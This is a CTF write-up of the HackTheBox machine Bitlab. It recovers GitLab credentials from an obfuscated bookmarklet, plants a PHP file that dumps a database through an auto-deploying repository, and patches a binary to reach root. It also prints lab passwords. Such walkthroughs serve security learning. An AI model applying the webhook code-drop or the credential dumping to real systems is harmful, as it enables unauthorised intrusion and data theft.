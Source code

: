 ```yaml
---
title: "Bitlab - HackTheBox"
date: 2020-01-11T19:00:00+02:00
tags: []
---
```


Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-11 12:23 EST
Nmap scan report for 10.10.10.114
Host is up (0.058s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's visit the website on port 80:
![](/images/hackthebox/bitlab/bitlab.png)

This is a Gitlab server installation and trying common username and passwords
combinations or a bruteforce with Hydra does not gives us anything, but by
visiting the [Help](http://10.10.10.114/help/bookmarks.html) link in the bottom, we find an interesting page:

![](/images/hackthebox/bitlab/help.png)

The most interesting link is the last one, Gitlab login, which contains this
javascript function:
```js
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It is obfuscated, so let's use a tool like `https://beautifier.io/` to improve
the readability:
```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

And let's replace the variable with their values:

```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
})()
```

Basically what it does is it autocompletes the login form with `clave` as
username and `11des0081x` as password. After logging in we find two
repositories:
![](/images/hackthebox/bitlab/repositories.png)

This is the code of Deployer:
```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```
It does a Git pull automatically after a merge is done on the Profile
repository. Luckily for us, the Profile repository is cloned into the root of
the web server, and it's visitable by going on the user's settings (which is
strange, maybe it was an error).

Another interesting thing can be found in the user's snippets:
![](/images/hackthebox/bitlab/snippets.png)

The logical thing to do now is to try to use those credentials to dump the
table, so let's create a file called dump.php in the Profile repository and let's write the
following code:
```php
<?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection,"SELECT * FROM profiles;");
    var_dump(pg_fetch_all($result));
?>
```
After creating a merge request and accepting it, the Deployer project will
automatically pull the changes and the `dump.php` file will be visitable. Here
is it's output:
```json
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
```

The password looks like base64 and it gets decoded as `ssh-str0ng-p@ss`, but
there is an invalid padding, and the password is the actual base64 string. I
hate when in CTFs these things happen, it's just a loss of time.
So let's connect with SSH and let's get the user flag:
```
clave@bitlab:~$ wc -c user.txt
33 user.txt
```

# Privilege escalation
The first thing that jumped to my eyes is a file in user's home:
```
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
```

Let's copy it on our machine to analyze it:
`scp clave@10.10.10.114:/home/clave/RemoteConnection.exe .`

Using Ghidra to reverse engineer it we can find some interesting strings:
![](/images/hackthebox/bitlab/strings.png)

And those strings are user in this function:
{{< highlight C "linenos=table, hl_lines=71" >}}
/* WARNING: Could not reconcile some variable overlaps */

void FUN_00401520(void)

{
  LPCWSTR pWVar1;
  undefined4 ***pppuVar2;
  LPCWSTR lpParameters;
  undefined4 ***pppuVar3;
  int **in_FS_OFFSET;
  uint in_stack_ffffff44;
  undefined4 *puVar4;
  uint uStack132;
  undefined *local_74;
  undefined *local_70;
  DWORD local_6c;
  void *local_68 [4];
  undefined4 local_58;
  uint local_54;
  void *local_4c [4];
  undefined4 local_3c;
  uint local_38;
  undefined4 ***local_30 [4];
  int local_20;
  uint local_1c;
  uint local_14;
  int *local_10;
  undefined *puStack12;
  undefined4 local_8;
  
  local_8 = 0xffffffff;
  puStack12 = &LAB_004028e0;
  local_10 = *in_FS_OFFSET;
  uStack132 = DAT_00404018 ^ (uint)&stack0xfffffffc;
  *(int ***)in_FS_OFFSET = &local_10;
  local_6c = 4;
  local_14 = uStack132;
  GetUserNameW((LPWSTR)0x4,&local_6c);
  local_38 = 0xf;
  local_3c = 0;
  local_4c[0] = (void *)((uint)local_4c[0] & 0xffffff00);
  FUN_004018f0();
  local_8 = 0;
  FUN_00401260(local_68,local_4c);
  local_74 = &stack0xffffff60;
  local_8._0_1_ = 1;
  FUN_004018f0();
  local_70 = &stack0xffffff44;
  local_8._0_1_ = 2;
  puVar4 = (undefined4 *)(in_stack_ffffff44 & 0xffffff00);
  FUN_00401710(local_68);
  local_8._0_1_ = 1;
  FUN_00401040(puVar4);
  local_8 = CONCAT31(local_8._1_3_,3);
  lpParameters = (LPCWSTR)FUN_00401e6d();
  pppuVar3 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar3 = local_30;
  }
  pWVar1 = lpParameters;
  pppuVar2 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar2 = local_30;
  }
  while (pppuVar2 != (undefined4 ***)(local_20 + (int)pppuVar3)) {
    *pWVar1 = (short)*(char *)pppuVar2;
    pWVar1 = pWVar1 + 1;
    pppuVar2 = (undefined4 ***)((int)pppuVar2 + 1);
  }
  lpParameters[local_20] = L'\0';
  if (local_6c == L'clave') {
  ShellExecuteW((HWND)0x0,L"open",L"C:\\Program Files\\PuTTY\\putty.exe",lpParameters,(LPCWSTR)0x0, 10);
  }
  if (0xf < local_1c) {
    operator_delete(local_30[0]);
  }
  local_1c = 0xf;
  local_20 = 0;
  local_30[0] = (undefined4 ***)((uint)local_30[0] & 0xffffff00);
  if (0xf < local_54) {
    operator_delete(local_68[0]);
  }
  local_54 = 0xf;
  local_58 = 0;
  local_68[0] = (void *)((uint)local_68[0] & 0xffffff00);
  if (0xf < local_38) {
    operator_delete(local_4c[0]);
  }
  *in_FS_OFFSET = local_10;
  FUN_00401e78();
  return;
}
{{< /highlight >}}

It looks like it uses some functions to decrypt a password and use it to login
with PuTTY to a machine on line 71. The only problem is that the user that runs
the program must be named `Clave`, and this check is at address `0x401640`:
![](/images/hackthebox/bitlab/graph.png)

We can patch the program by editing `JNZ LAB_00401662` at address `0x401647` to `JMP 0x00401649` to
unconditionally jump, and running the patched program gets us a root shell on
the machine:
![](/images/hackthebox/bitlab/putty.png)

Cool! This was my first machine that needed reverse engineering so it took me a
while, and the important thing that we can learn is to not be lazy and use
strange methods to save passwords and important stuff.

Another way that this step could have been done is to use a debugger and put a breakpoint after the password gets decoded and read the memory:
```
Qf7]8YSV.wDNF*[7d?j&eD4^
```

Thanks for reading!
